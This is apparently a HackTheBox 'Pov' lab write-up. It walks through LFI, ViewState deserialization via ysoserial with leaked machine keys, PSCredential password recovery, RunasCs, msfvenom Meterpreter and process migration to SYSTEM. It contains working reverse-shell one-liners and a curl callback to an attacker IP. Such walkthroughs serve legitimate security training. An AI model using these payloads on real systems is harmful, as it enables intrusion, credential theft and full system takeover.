## 1. Website Enumeration

- We found a simple LFI vulnerability that allow us to read the config file of the web server:



## 2. Foothold

### 2.1 ViewState Deserialization

- Let's start a simple server to receive the connection from the target machine:




- We'll use the following payload to extract the current working directory:

```
./ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe $a=pwd; $result='http://10.10.14.37:1234/'+$a; 
curl $result" --path="/content/default.aspx" --apppath="/" --decryptionalg="AES" 
--decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" 
--validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```



- Now send it as the value of the `__VIEWSTATE` parameter:



- And we received the connection:



- We can create a simple reverse shell by hosting the `nc.exe` file and pull it from the target machine (since `dev.pov.htb` does not interact with the internet)

- Payload:

```
.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe cmd /c c:\\windows\\temp\\nc.exe 10.10.14.37 
4444 -e powershell" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" 
--decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" 
--validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

- Going back to the `nc` listener:




### 2.2 PSCredential

- This user we're having (`sfitz`) doesn't seem to have any permissions. After some enumeration, I found an interesting files:



- This is called `PSCredential`, which is a placeholder for a set of credentials – it basically contains a username and a password. The PSCredential object 
offers a safe and convenient way to handle a username and password.

- By using `PSCredential`, we can run Powershell commands under specific credentials, meaning running it with that user's permissions. We can obtain the clear-text
password by simply using:

```
PS C:\> $HexPass = Get-Content "password.txt"
PS C:\> $Credential = New-Object -TypeName PSCredential -ArgumentList "adm.ms@easy365manager.com", ($HexPass | ConvertTo-SecureString)
PS C:\> $BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($Credential.Password)
PS C:\> [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
```

- Result:




- Now we can execute arbitrary commands using these credentials. Below are the commands to create a reverse shell under `alaading`:

```
PS C:\windows\system32\inetsrv> $username = 'alaading'
PS C:\windows\system32\inetsrv> $password = 'f8gQ8fynP44ek1m3'
PS C:\windows\system32\inetsrv> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
PS C:\windows\system32\inetsrv> $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
PS C:\windows\system32\inetsrv> Invoke-Command -ComputerName localhost -Credential $credential -ScriptBlock {$client = 
New-Object System.Net.Sockets.TCPClient('10.10.14.37',4445);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).
GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '
;$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};
$client.Close()}
```

- Going back to our listener on port 4445:



- User flag is under `C:/Users/alaading/Desktop`

## 3. Privilege Escalation

- Checking our privilege:



### 3.1 SeDebugPrivilege

- By itself, `SeDebugPrivilege` gives a process the ability to view and modify the memory of other processes. Regardless of security descriptors, 
`SeDebugPrivilege` grants the token bearer access to any process or thread.

- As we could see on this machine, `alaading` does not have `SeDebugPrivilege` enabled. So, to bypass this, we could import <a href="https://github.com/antonioCoco/RunasCs/tree/master">RunasCs</a>.

- `RunasCs` is a tool that allows you to use explicit credentials to run particular processes with permissions different from what our shell current provides.

- As you can see below, `RunasCs` enables a list of privileges for a specific security token:

```
public static string EnableAllPrivileges(IntPtr token)
    {
        string output = "";
        string[] privileges = { "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeBackupPrivilege", 
                                "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeCreatePagefilePrivilege", 
                                "SeCreatePermanentPrivilege", "SeCreateSymbolicLinkPrivilege", "SeCreateTokenPrivilege", 
                                "SeDebugPrivilege", "SeDelegateSessionUserImpersonatePrivilege", "SeEnableDelegationPrivilege", 
                                "SeImpersonatePrivilege", "SeIncreaseBasePriorityPrivilege", "SeIncreaseQuotaPrivilege", 
                                "SeIncreaseWorkingSetPrivilege", "SeLoadDriverPrivilege", "SeLockMemoryPrivilege", 
                                "SeMachineAccountPrivilege", "SeManageVolumePrivilege", "SeProfileSingleProcessPrivilege", 
                                "SeRelabelPrivilege", "SeRemoteShutdownPrivilege", "SeRestorePrivilege", "SeSecurityPrivilege", 
                                "SeShutdownPrivilege", "SeSyncAgentPrivilege", "SeSystemEnvironmentPrivilege", 
                                "SeSystemProfilePrivilege", "SeSystemtimePrivilege", "SeTakeOwnershipPrivilege", "SeTcbPrivilege", 
                                "SeTimeZonePrivilege", "SeTrustedCredManAccessPrivilege", "SeUndockPrivilege", "SeUnsolicitedInputPrivilege" };
        foreach (string privilege in privileges)
        {
            output += EnablePrivilege(privilege, token);
        }
        return output;
    }
```

- We can use it to spawn another shell:

```
.\RunasCs.exe alaading f8gQ8fynP44ek1m3 cmd.exe -r 10.10.14.37:7777 --bypass-uac
```



- And we're in:



- Now that we have `SeDebugPrivilege` enabled, we can upload a Meterpreter Shell to the machine and gain leverage access as Administrator:




- Use the following payload to generate the reverse shell:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.37 LPORT=5555 -f exe -o payload.exe
```

- And voilà!!



- Now, one of the oldest tricks on the book is to migrate into another Windows processes:

```
There are many cases where you need to "migrate" a specific Windows working process, typically a shell.
- An unstable shell.
- Migrate from a 32-bit process to a 64-bit process.
- Dealing with exploits require an interactive session.
```


- This can be easily completed if you have a Meterpreter shell. All you have to do is wait for process migration to occur after launching the 
"migrate" command with the PID specified. n technical terms, by creating a thread inside another process, this is more of a malicious code injection than a true 
migration, and Meterpreter is exceptional at doing this. It creates a new remote thread and injects your current session into it, along with all of your loaded 
extensions and configurations.

- By migrating into a more privileged process, we should be able to gain `NT AUTHRITY`:
```
(Meterpreter 5)(C:\Windows\system32) > shell
Process 2780 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> Get-Process svchost
Get-Process svchost

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                   
-------  ------    -----      -----     ------     --  -- -----------                                                   
    195      11     1844       8572       0.08     68   0 svchost                                                       
    147       7     1240       6160       0.02    308   0 svchost                                                       
    182       8     1436       6476       0.20    320   0 svchost                                                       
    319      16    21404      23888      18.44    400   0 svchost                                                       
     96       5      888       4028       0.00    744   0 svchost                                                       
    781      16     5300      15144       0.80    764   0 svchost                                                       
    930      16     4476      11204       2.06    832   0 svchost                                                       
    380      13     9948      14524      10.97    852   0 svchost                                                       
    245      10     1736       7148       0.14    884   0 svchost                                                       
    196      15     6120      10420       0.02   1020   0 svchost                                                       
    138       7     1196       5852       0.00   1028   0 svchost                                                       
    175       9     1716       7952       0.05   1036   0 svchost                                                       
    233      12     2692      11820       1.16   1044   0 svchost                                                       
    427       9     2700       9284       0.56   1052   0 svchost                                                       
    136       7     1264       5952       0.00   1176   0 svchost                                                       
    143      10     1332       6012       0.02   1188   0 svchost
    159      27     5408       9656       0.72   1232   0 svchost                                                                                                                          
    361      18     5640      14544       1.47   1268   0 svchost                                                                                                                          
    223       9     2236       7824       0.78   1292   0 svchost                                                                                                                          
    236      13     2776       8400       1.08   1316   0 svchost                                                                                                                          
    325      13     2028       9192       0.08   1324   0 svchost                                                                                                                          
    176      12     3832      11388       0.05   1380   0 svchost                                                                                                                          
    312      20     9788      15116       0.17   1396   0 svchost                                                                                                                          
    186      11     1956       8428       0.09   1444   0 svchost                                                                                                                          
    345      15     3748      11316       0.14   1452   0 svchost                                                                                                                          
    275      13     3980      11464       0.95   1524   0 svchost                                                                                                                          
    168      10     1728       7320       0.05   1552   0 svchost                                                                                                                          
    328      10     2592       8880       0.52   1656   0 svchost                                                                                                                          
    406      32     8552      17372      20.11   1664   0 svchost                                                                                                                          
    198      11     1944       8420       1.03   1720   0 svchost                                                                                                                          
    190       9     2312       7788       1.28   1824   0 svchost                                                                                                                          
    178       9     1792       8592       0.17   1884   0 svchost                                                                                                                          
    245      25     3312      12784       0.22   2004   0 svchost                                                                                                                          
    418      20    18120      31504       3.75   2068   0 svchost                                                                                                                          
    393      16    11452      21196      28.70   2076   0 svchost                                                                                                                          
    213      11     1908       7260       0.06   2120   0 svchost                                                                                                                          
    145       8     1576       6584       0.00   2156   0 svchost                                                                                                                          
    137       7     1240       5672       0.00   2200   0 svchost                                                                                                                          
    206      11     2212       8524       1.33   2232   0 svchost                                                       
    213      12     1772       7568       0.03   2248   0 svchost                                                       
    175      10     2128      13260       0.00   2276   0 svchost                                                       
    464      17     3084      11772       0.08   2560   0 svchost                                                       
    248      15     4988      12772       0.09   2568   0 svchost                                                       
    145       9     1536       6744       0.02   2600   0 svchost                                                       
    362      64     6196      14820       0.66   2692   0 svchost                                                       
    430      26     3528      13392       0.17   3060   0 svchost                                                       
    164      10     1988       7792       0.06   3116   0 svchost                                                       
    136       8     2996      10200       0.33   3396   0 svchost                                                       
    175       9     2916       7732       0.03   4332   0 svchost                                                       
    131       8     1644       6064       0.03   4348   0 svchost                                                       
    128       8     1300       5824       0.03   4892   0 svchost                                                       
    233      13     2732      12516       0.06   4972   0 svchost                                                       
    321      18     5832      22476       0.45   5020   0 svchost
```

- Lastly, take the PID and let Meterpreter handle everything:



- Note:

```
It is also possible to migrate into winlogon, explorer 

There is a port open for localhost, so another possible approach is to port forwarding by using chisel then evil-winrm (or Cobalt Strike, Sliver, Havoc C2)
```

---

### Exploit chain:

- Website Enumerate
- LFI
- ViewState Deserialization
- `sfitz` reverse shell
- PSCredential
- `alaading` shell
- `RunasCs` to trigger reverse shell under `alaading` privilege
- Metasploit reverse shell
- Migrate to higher privileged process
- Gain root

---

### Reference

- https://notsosecure.com/exploiting-viewstate-deserialization-using-blacklist3r-and-ysoserial-net
- https://www.easy365manager.com/pscredential/
- https://htbwp.readthedocs.io/en/latest/season4/windows/Pov.html